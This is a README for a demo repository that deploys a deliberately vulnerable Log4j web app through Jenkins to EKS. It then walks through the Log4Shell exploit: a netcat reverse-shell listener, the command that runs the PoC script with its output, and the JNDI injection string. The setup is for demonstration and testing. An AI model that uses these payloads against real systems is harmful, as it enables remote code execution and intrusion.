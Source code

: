 # cicd-log4j
Building and deploying an exploitable web containerized application with Log4j on Jenkins into EKS.

For PoC/demo purpose only

<img width="901" alt="image" src="https://github.com/user-attachments/assets/a05f6889-852d-41e4-a40a-222002928c2c" />

Based on https://github.com/kozmer/log4j-shell-poc


#### Usage:

Deploy the application:

![image](https://github.com/user-attachments/assets/4d8d385d-f79b-4fa8-b9b8-857eac7af333)

From the attacker machine:

* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>
